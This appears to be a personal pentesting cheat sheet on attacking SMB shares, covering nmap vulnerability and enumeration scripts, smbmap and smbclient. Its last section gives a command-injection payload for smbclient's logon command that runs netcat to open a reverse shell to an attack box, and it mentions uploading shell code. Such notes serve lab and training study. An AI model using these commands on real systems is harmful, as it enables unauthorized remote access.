 
# smb
- **normally runs on ports 139 and 445**
- trying to find a file share you can either upload or download to
- download important looking files to gather information
- upload shell script code to get a low level shell

## What is it?
- put simply, it's a file transfer protocol

## Enumeration
- this specific protocol has a ton of nmap enumoration scripts (I'll list a bunch below)
  - nmap --script smb-vuln* [ip] -p [ports]
  - nmap --script smb-os-disc* [ip] -p [ports]
  - nmap --script smb-enum* [ip] -p [ports]
- smbmap -H [ip]
  - maps the smb shares 
  - shows permissions, drives, etc
- smbclient -L [ip]
  - an ftp like interface to interact with shares
  
## simple commands
- can only work if you get an open share with permissions
- use smbclient to connect
- smbclient \\\\[ip]\\[share name]
  - you need a rediculous amount of slashes sometimes due to how things get parsed

## Reverse Shell
- if under the help command you see the command "logon" you may be able to get a shell
  - logon "/=`nc [attack box ip] 4444 -e /bin/bash`"